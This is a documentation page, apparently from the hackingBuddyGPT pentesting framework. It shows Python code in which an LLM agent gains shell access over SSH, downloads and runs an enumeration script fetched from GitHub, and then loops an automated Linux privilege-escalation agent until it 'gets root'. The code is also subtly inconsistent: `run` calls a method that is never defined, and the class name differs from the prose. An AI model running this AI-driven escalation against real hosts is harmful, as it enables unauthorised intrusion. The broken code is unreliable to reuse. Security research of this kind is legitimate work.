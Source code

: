```yaml
---
title: Calling Agents from Use-Cases
nextjs:
  metadata:
    title: Calling Agents from Use-Cases
    description: "HackingBuddyGPT: Create a custom use-case which calls other (existing) agents"
---
```


So you have an idea for a new use-case and want to call other existing agents from within that use-case. This is easily possible using hackingBuddyGPT.

One example of this would be `ExPrivEscLinuxLSEUseCase`. This example use-case initially calls the `LSE.sh` binary to enumerate the target system, takes its output, and uses an LLM to extract up to three hints based upon the enumeration. It subsequently calls the standard `LinuxPrivesc` Agent with the hint to perform the actual privilege escalation attack.

To achieve this, our use-case is sub-classing `UseCase`, thus we need to implement `get_name` and `run` ourself. The `run` method in turn is used to call `call_lse_against_host` to perform the enumeration using `lse.sh`. It also uses an LLM to summarize the output into potential hints that will be later passed on to the agent.

In the `run` method itself, we iterate over the hints and call the `run_using_agent` method to actually instantiate a new agent that will be used to hack the target system. We calculate a new `max_turn` value so that the overall turn count will stay constant.

```python
@use_case("Linux Privilege Escalation using lse.sh for initial guidance")
class LinuxPrivescWithLSEUseCase(UseCase):
    conn: SSHConnection = None
    max_turns: int = 20
    enable_explanation: bool = False
    enable_update_state: bool = False
    disable_history: bool = False
    llm: OpenAIConnection = None

    _got_root: bool = False

    def init(self):
        super().init()

    # simple helper that uses lse.sh to get hints from the system
    def call_lse_against_host(self):
        self._log.console.print("[green]performing initial enumeration with lse.sh")

        run_cmd = "wget -q 'https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh' -O lse.sh;chmod 700 lse.sh; ./lse.sh -c -i -l 0 | grep -v 'nope$' | grep -v 'skip$'"

        result, _ = SSHRunCommand(conn=self.conn, timeout=120)(run_cmd)

        self.console.print("[yellow]got the output: " + result)
        cmd = self.llm.get_response(template_lse, lse_output=result, number=3)
        self.console.print("[yellow]got the cmd: " + cmd.result)

        return [x for x in cmd.result.splitlines() if x.strip()] 

    def get_name(self) -> str:
        return self.__class__.__name__
    
    def run(self):
        # get the hints through running LSE on the target system
        hints = self.call_lse_against_host()
        turns_per_hint = int(self.max_turns / len(hints))

        # now try to escalate privileges using the hints
        for hint in hints:
            result = self.run_using_usecases(hint, turns_per_hint)
            if result is True:
                self.console.print("[green]Got root!")
                return True

    def run_using_agent(self, hint, turns_per_hint):
        # init agent
        agent = LinuxPrivesc(
            conn = self.conn,
            llm = self.llm,
            hint = hint,
            enable_explanation = self.enable_explanation,
            enable_update_state = self.enable_update_state,
            disable_history = self.disable_history
        )
        agent._log = self._log
        agent.init()

        # perform the privilege escalation
        agent.before_run()
        turn = 1
        got_root = False
        while turn <= turns_per_hint and not got_root:
            self._log.console.log(f"[yellow]Starting turn {turn} of {turns_per_hint}")

            if agent.perform_round(turn) is True:
                got_root = True
            turn += 1
        
        # cleanup and finish
        agent.after_run()
        return got_root
```

The `run_using_agent` method is simple (and a bit tedious). After we instantiate the `LinuxPrivesc` agent (please remember to set `_log` and call `.init()` and `.before_run()`), we have to manually implement the loop that will call the agent's `perform_round` method.
